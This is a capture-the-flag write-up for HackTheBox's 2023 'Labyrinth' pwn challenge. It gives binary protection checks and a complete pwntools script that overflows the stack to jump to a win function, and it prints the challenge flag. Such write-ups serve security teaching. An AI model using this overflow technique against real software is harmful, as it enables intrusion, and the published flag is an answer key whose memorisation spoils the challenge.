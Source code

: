 ```yaml
---
name: Labyrinth (2023)
event: HackTheBox Cyber Apocalypse - Intergalactic Chase CTF 2023
category: Pwn
description: Writeup for Labyrinth (Pwn) - HackTheBox Cyber Apocalypse - Intergalactic Chase CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Labyrinth

## Description

> You find yourself trapped in a mysterious labyrinth, with only one chance to escape. Choose the correct door wisely, for the wrong choice could have deadly consequences.

## Solution

Check file info and binary protections.

```bash
file labyrinth
labyrinth: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=86c87230616a87809e53b766b99987df9bf89ad8, for GNU/Linux 3.2.0, not stripped
```

```bash
checksec --file labyrinth
[*] '/home/crystal/Desktop/htb/challenge/labyrinth'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```

Decompile in ghidra and find we must select door `69` followed by door `069`. However, providing `069` is enough to satisfy both conditions.

In ghidra, we can find our offset of `64` and a "win" function called `escape_plan` which prints the flag.

```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x401602
continue
'''.format(**locals())

# Binary filename
exe = './labyrinth'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Offset to RIP
offset = 64

# Start program
io = start()

ret = 0x401016

# Build the payload
payload = flat([
    b'C' * (offset - 8),
    ret,  # stack alignment
    elf.symbols.escape_plan
])

# Pass initial checks
io.sendlineafter(b'>', b'069')

# Send the payload
io.sendlineafter(b'>', payload)

# Got Flag?
io.recvuntil(b'journey:')
warn(io.recvlines(2)[1].decode())
```

Flag: `HTB{3sc4p3_fr0m_4b0v3}`
